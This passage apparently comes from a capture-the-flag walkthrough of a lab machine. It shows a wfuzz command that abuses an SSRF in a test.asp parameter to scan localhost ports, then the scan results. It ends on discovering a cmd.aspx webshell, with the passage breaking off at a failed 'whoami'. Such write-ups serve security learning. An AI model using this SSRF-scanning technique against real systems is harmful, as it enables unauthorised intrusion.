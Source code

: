 
This takes a long time to run completely, but it doesn’t take long to find
port 80. Still, it’s an empty (0 character response. I’ll try the same scan,
but this time using `127.0.0.1` instead of `10.10.10.57`:

    
    
    oxdf@hacky$ wfuzz -u http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/ -z range,1-65535 --hc 5
    00
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/
    Total requests: 65535
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                                                
    ===================================================================
    
    000000080:   200        12 L     25 W     323 Ch      "80"
    000005985:   200        0 L      0 W      0 Ch        "5985"
    000047001:   200        0 L      0 W      0 Ch        "47001"
    000062696:   200        13 L     37 W     458 Ch      "62696"
    
    Total time: 7341.611
    Processed Requests: 65535
    Filtered Requests: 65531
    Requests/sec.: 8.926514
    

This time the response is not empty.

Both scan also find WinRM-related ports (5985 and 470001).

#### Site Administration

The site on localhost is titled Site Administration:

![image-20220405084042030](https://0xdfimages.gitlab.io/img/image-20220405084042030.png)

It’s a bit strange that the first four links show as visited given I’ve never
been to this site before. That’s because they each lead to the current
location, `http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/`.

The last one is different, leading to `http://127.0.0.1/cmd.aspx`. Clicking
that will lead my browser to try to load `cmd.aspx` off my host, which doesn’t
exist. But I can visit it via `test.asp`, and it presents a simple webshell:

![image-20220405084225083](https://0xdfimages.gitlab.io/img/image-20220405084225083.png)

#### Interacting with Webshell

Typing “whoami” into the field and hitting enter returns an error:

![image-20220405084744959](https://0xdfimages.gitlab.io/img/image-20220405084744959.png)
